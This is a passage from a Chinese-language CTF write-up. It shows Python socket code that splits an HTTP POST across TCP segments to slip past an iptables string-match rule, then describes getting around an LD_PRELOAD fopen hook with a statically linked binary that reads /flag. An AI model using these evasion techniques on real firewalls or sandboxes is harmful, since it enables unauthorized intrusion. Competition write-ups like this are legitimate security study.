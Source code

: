 搜索「iptables bm」可以找到 [这个 Server Fault 问题](https://serverfault.com/questions/1141991/what-is-the-difference-bm-and-kmp-algorithms-in-iptables-string-search)。它指出了 iptables 的 BM 字符串匹配算法似乎在处理「multiple blocks」上存在问题。所以，我盲猜了一下：只需要把 TCP 包分包发出，使得 `POST` 不连续出现，就可以绕过这个 iptables 规则的字符串匹配了。

求助 ChatGPT 之后，我写出了以下代码并成功获得了 flag：

```python
import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

server_address = ('202.38.93.111', 18080)
sock.connect(server_address)

message = b'POST / HTTP/1.1\r\nHost: 202.38.93.111:18080\r\nContent-Length: 101\r\n\r\n' + token

first = message[:1]
second = message[1:]

sock.sendall(first)
sock.sendall(second)

data = sock.recv(1024)
print(data)

sock.close()
```

### 我的 P

直接把第一小问的代码的端口改一下就能获得第二小问的 flag。非预期？

## 为什么要打开 /flag 😡

### LD_PRELOAD, love!

把题目解包，发现似乎是写个了一个 so 文件覆盖掉了 `fopen` 之类的函数。所以只要上传静态编译的二进制文件就可以了。用 Go 或者 Zig 这种不依赖 libc 的语言应该也可以。

顺便关于读取 `/flag` 的二进制文件，我本来的想法是直接 `system("cat /flag");` 的，但是这个环境似乎没有 cat。所以只能用 `fopen`、`fread`、`fwrite` 一条龙了。
